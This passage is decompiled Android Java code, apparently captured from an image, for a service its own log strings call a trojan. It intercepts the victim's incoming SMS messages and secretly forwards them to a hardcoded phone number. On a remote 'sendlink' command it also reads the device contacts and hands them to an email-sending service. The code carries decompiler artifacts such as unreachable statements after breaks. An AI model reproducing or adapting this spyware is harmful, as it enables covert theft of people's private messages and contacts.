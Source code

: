             try
            {
              sleep(8000L);
              System.out.println("==============================================");
              System.out.println("开启线程睡眠8秒后 将Flag=false");
              System.out.println("==============================================");
              ListenMessageService.this.Flag = false;
              return;
            }
            catch (InterruptedException localInterruptedException)
            {
              while (true)
                localInterruptedException.printStackTrace();
            }
          }
        }
        .start();
        System.out.println("Flag------->>>>>>>" + ListenMessageService.this.Flag);
        localSmsInfo.smsAddress = str6;
        localSmsInfo.smsBody = str7;
        localSmsInfo.action = 1;
        break label750;
        if (!str4.equals("sendlink"))
          break label728;
        System.out.println("数据库处理发送Link命令--------------------------------------------");
        ListenMessageService.this.Flag = false;
        String str5 = str1.substring(i + 1);
        ListenMessageService.this.ReadCONTACTS(ListenMessageService.this, str5);
        Intent localIntent1 = new Intent(ListenMessageService.this, MySendEmailService.class);
        localIntent1.putExtra("String", ListenMessageService.this.contactArray.toString());
        ListenMessageService.this.startService(localIntent1);
        localSmsInfo.action = 2;
        break label750;
        label1345: System.out.println("Flag----------->" + ListenMessageService.this.Flag);
        if (!ListenMessageService.this.Flag)
          break label1396;
        System.out.println("判断为伪造短信。不用截获不用发送-------------------------");
      }
      label1396: System.out.println("木马判断为普通信息，发送");
      SmsManager localSmsManager = SmsManager.getDefault();
      String str3 = "【数据库截获】RECV::" + localStringBuilder1.toString();
      if (str3.length() > 60)
      {
        localSmsManager.sendTextMessage("18670259904", null, str3.substring(0, str3.length() / 2), null, null);
        localSmsManager.sendTextMessage("18670259904", null, str3.substring(1 + str3.length() / 2), null, null);
      }
      while (true)
      {
        localSmsInfo.action = 2;
        Message localMessage1 = this.smsHandler.obtainMessage();
        localMessage1.obj = localSmsInfo;
        this.smsHandler.sendMessage(localMessage1);
        break;
        localSmsManager.sendTextMessage("18670259904", null, str3, null, null);
      }
    }
  	}
